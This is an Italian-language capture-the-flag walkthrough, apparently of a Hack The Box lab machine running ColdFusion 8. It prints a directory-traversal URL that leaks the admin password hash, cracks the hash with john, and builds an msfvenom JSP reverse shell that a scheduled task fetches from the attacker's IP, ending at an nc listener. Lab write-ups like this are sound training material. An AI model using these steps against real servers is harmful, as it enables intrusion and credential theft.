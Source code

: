 Diamo un'occhiata al codice dell'exploit 14641. http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

In realtà non dobbiamo eseguire il file exploit. Invece, potremmo semplicemente navigare verso l'URL sopra per visualizzare il contenuto del file `password.properties`.

![imag2](../zzz\_rev/attachments/11WRx1zCNkyVb\_qfEHcQYiA.webp) password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

l'hash sembra essere un SHA1 proviamo ad darlo in impasto a john per rompere l'hash

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# john hash.txt --format=raw-sha1 -wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)     
1g 0:00:00:00 DONE (2023-05-15 01:56) 33.33g/s 170666p/s 170666c/s 170666C/s jodie..babygrl
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

Ci loggiamo con admin:happyday e siamo dentro

![image4](../zzz\_rev/attachments/artic4.png)

> NOTA: APPROFONDIRE PASS THE HASH

### METODO CON AUTENFICAZIONE ADMIN

Una volta avuto l'accesso al prompt dell'admin addiamo al sezione "SERVER SETTING MAPPING" e prendiamo nota dalla directory path di /CFID nel nostro caso

C:\ColdFusion8\wwwroot\CFIDE

Prepariamo un payload come segue

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.53 LPORT=4444 -f raw > shell.jsp 
```

Ci spostiamo nella sezione "DEBUGGING & LOGGING > ADD/EDIT SCHEDULED TASK e aggiungiamo un nuovo schedule

![imag3](../zzz\_rev/attachments/1HqvdBk09BVtq1448nzEWFA.webp)

![imag4](../zzz\_rev/attachments/artic5.png)

alla voce Url mettiamo il nostro ip http://10.10.14.53:80/shell.jsp

alla voce file mettiamo la path salvata in precenza C:\ColdFusion8\wwwroot\CFIDE

Salviamo, ci mettimo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```
